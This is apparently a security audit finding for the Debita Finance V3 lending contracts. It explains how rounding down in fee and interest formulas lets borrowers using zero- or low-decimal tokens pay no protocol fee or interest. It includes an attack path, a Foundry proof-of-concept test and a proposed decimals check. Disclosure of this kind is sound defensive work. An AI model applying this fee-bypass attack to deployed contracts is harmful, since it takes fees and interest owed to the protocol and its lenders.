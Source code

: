 Brave Glossy Duck

Medium

# Protocol Fees Can Be Bypassed Using Low/Zero Decimal Tokens

### Summary

Zero/low decimal tokens can be rounded down to 0 during protocol fee and lender interest fee calculation. Borrowers can use such tokens to bypass fees and interest, essentially making free borrowing.

### Root Cause

In competition detail, the protocol stated it supports tokens with the following characteristics:

```text
- any ERC20 that follows exactly the standard (eg. 18/6 decimals)
- Receipt tokens (All the interfaces from "contracts/Non-Fungible-Receipts/..")
- USDC and USDT
- Fee-on-transfer tokens will be used only in `TaxTokensReceipt` contract.
```

The protocol does not explicitly exclude low decimal tokens, which are also valid ERC20 tokens.

There is an issue with the protocol fee being rounded down to 0 at two specific functions:

1. In the [DebitaV3Aggregator::matchOffersV3](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Aggregator.sol#L544), fee is calculated as such
```solidity
uint feeToPay = (amountPerPrinciple[i] * percentage) / 10000;
```
So if the `amountPerPrinciple` is smaller enough, it might round to 0 after dividing 10000. 

2. In the [DebitaV3Loan::calculateInterestToPay-annualInterest](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Loan.sol#L723) and [DebitaV3Loan::calculateInterestToPay-interest](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaV3Loan.sol#L734)
Intial annual interest is calculated as such
```solidity
uint anualInterest = (offer.principleAmount * offer.apr) / 10000;
```
and subsequently, lender interest is calculated as such:
```solidity
uint interest = (anualInterest * activeTime) / 31536000;
```
Similarly, if the `principleAmount` is small enough, `annualInterest` and finally interest can also be rounded to 0 and lender wouldn't be able to receive any interest.

These issues wouldn't be economically viable for tokens with high token decimals eg. 18, as the principle amount needed would be extremely small for this to be profitable. However, this issue becomes feasible with low decimal tokens as the principle amount can remain at a reasonable range. For example, even if protocol fee is at `maxFee` which is `80(0.8%)`, borrowers could receive up to 125 zero decimal tokens without paying any protocol fee.

### Internal pre-conditions

The contract needs to use a token with low/zero decimals (e.g., 0-2 decimals) as collateral to be profitable
The principle amount needs to be small enough so that when multiplied by percentage and divided by 10000:

For `DebitaV3Aggregator::matchOffersV3`:

```solidity
amountPerPrinciple * percentage < 10000
```

For `DebitaV3Loan::calculateInterestToPay`: 

```solidity
offer.principalAmount * apr < 10000
```

### External pre-conditions

None - This vulnerability is entirely dependent on internal protocol conditions.

### Attack Path

1. Borrower supplies a low/zero decimal token as collateral
2. Borrower creates a borrow order with a small principle amount ensuring:
```solidity
amountPerPrinciple * percentage < 10000
```
and
```solidity
(offer.principleAmount * offer.apr) / 10000
```
3. When the loan is matched via `DebitaV3Aggregator::matchOffersV3`, the protocol fee is rounded to 0
4. Similarly, when interest is calculated via `DebitaV3Loan::calculateInterestToPay`, annual interest is rounded to 0, borrower bypasses paying interest.
5. As a result, borrower successfully borrows with zero fees and zero interest

### Impact

1. The protocol loses protocol fees and interest payments when low decimal tokens are used as collateral.
2. The borrowers gain by avoiding both protocol fees (in `matchOffersV3`) and annual interest payments (in `calculateInterestToPay`), effectively getting free loans.

### PoC

Add the code below in the `BasicDebitaAggregator.t.sol` test file

1. Deploy a mock token with 0 decimal and create a fee address to keep track of fee received

```solidity
        address feeAddress = makeAddr("fee");

        // deploy a mock token with 0 decimals
        zero = address(new ERC20ZeroDecimal());
        // deal this contract some ZERO token
        deal(zero, address(this), 1000, true);

        // Zero token setup and
        deal(zero, address(this), 1000, false);
        IERC20(zero).approve(address(DBOFactoryContract), 1000e18);
        IERC20(zero).approve(address(DLOFactoryContract), 1000e18);
```

2. Creates Lend order and Borrow order using this token as collateral / principle
```solidity
 address zeroBorrowOrderAddress = DBOFactoryContract.createBorrowOrder(
            oraclesActivated,
            ltvs,
            1000,
            864000, // 10 days
            acceptedPrinciples,
            zero,
            false,
            0,
            oraclesPrinciples,
            ratio,
            address(0x0),
            500 // 500 token
        );

        address zeroLendOrderAddress = DLOFactoryContract.createLendOrder(
            false,
            oraclesActivated,
            false,
            ltvs,
            1000,
            5184000, // 60 days
            86400, // 1 day
            acceptedCollaterals,
            zero,
            oraclesPrinciples,
            ratio,
            address(0x0),
            100 // 100 token
        );

        ZeroBorrowOrder = DBOImplementation(zeroBorrowOrderAddress);
        ZeroLendOrder = DLOImplementation(zeroLendOrderAddress);
```

3. Match lend order and borrow order and check for fee

```solidity
    function test_FeeCanBeRoundToZero() public {
        address[] memory lendOrders = allDynamicData.getDynamicAddressArray(1);
        uint[] memory lendAmountPerOrder = allDynamicData.getDynamicUintArray(
            1
        );
        uint[] memory porcentageOfRatioPerLendOrder = allDynamicData
            .getDynamicUintArray(1);
        address[] memory principles = allDynamicData.getDynamicAddressArray(1);
        uint[] memory indexForPrinciple_BorrowOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexForCollateral_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        uint[] memory indexPrinciple_LendOrder = allDynamicData
            .getDynamicUintArray(1);
        indexForPrinciple_BorrowOrder[0] = 0;
        indexForCollateral_LendOrder[0] = 0;
        indexPrinciple_LendOrder[0] = 0;

        lendOrders[0] = address(ZeroLendOrder);
        lendAmountPerOrder[0] = 50;
        porcentageOfRatioPerLendOrder[0] = 10000;
        principles[0] = zero;

        uint256 feeCollectedBefore = IERC20(zero).balanceOf(feeAddress);
        console.log("Fee collected Before:", feeCollectedBefore);

        address loan = DebitaV3AggregatorContract.matchOffersV3(
            lendOrders,
            lendAmountPerOrder,
            porcentageOfRatioPerLendOrder,
            address(ZeroBorrowOrder),
            principles,
            indexForPrinciple_BorrowOrder,
            indexForCollateral_LendOrder,
            indexPrinciple_LendOrder
        );

        uint256 feeCollectedAfter = IERC20(zero).balanceOf(feeAddress);
        console.log("Fee collected After :", feeCollectedAfter);
    }
```

5. Log result
Log result shows `feeAddress` did not receive any fee
```solidity
("Fee collectedBefore:", 0)
("Fee collectedAfter :", 0)
```

### Mitigation

To prevent fee bypass exploits from being economically viable, we could add a minimum decimal requirement:

Add a decimal check in the relevant contracts to ensure only tokens with sufficient decimals are accepted:

```solidity
function validateTokenDecimals(address token) internal view {
    uint8 decimals = IERC20Metadata(token).decimals();
    require(decimals >= 6, "Token decimals must be at least 6");
}
```
Implement this check when tokens are used as collateral

Additionally, update protocol documentation to explicitly state:

```text
Supported tokens:
- ERC20 tokens with a minimum of 6 decimals
- Receipt tokens (All the interfaces from "contracts/Non-Fungible-Receipts/..")
- USDC and USDT
- Fee-on-transfer tokens will be used only in `TaxTokensReceipt` contract
```
